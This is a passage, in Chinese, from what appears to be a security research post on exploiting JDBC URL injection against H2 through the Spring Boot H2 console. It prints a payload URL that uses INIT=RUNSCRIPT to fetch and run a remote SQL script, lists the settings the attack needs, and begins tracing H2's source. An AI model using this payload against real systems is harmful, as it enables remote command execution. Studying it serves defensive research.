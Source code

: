 其实jdbc可控**后续导致的二次利用方案相当复杂**，由于这不是这篇文章的内容，所以我们直接跳到对应的位置来看看。

想要利用jdbc注入来调用H2进行进一步利用，其中有两个比较大的问题。

-   **需要相应的配置参数才能命令执行**
-   **由于不支持多行语句，需要找到能在单行里执行命令的方法**

**H2的攻击利用的是Spring Boot H2 console的一个特性**，通过控制h2数据库的连接url，我们可以迫使spring boot去**加载远程的sql脚本并执行命令**，类似下面这样的请求

```python
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8000/poc.sql'
```

而这样的请求需要**如下的参数**

```python
spring.h2.console.enable=true
spring.h2.console.setting.web-allow-others=true
```

我们简单的看下源码

在`org.h2.engine.Engine#openSession`中，发起连接是可以**通过INIT关键字来影响初始化数据库连接的配置**

[![img](assets/1700703664-e402458d99c41263b49cafda0bcd2ddb.png)](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211747556.png)

[![img](assets/1700703664-612835714bc09763c74374fea97ab71b.png)](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211747988.png)

**当我们使用RUNSCRIPT关键字发起远程连接时**，代码将会执行到`org.h2.command.dml.RunScriptCommand#execute`
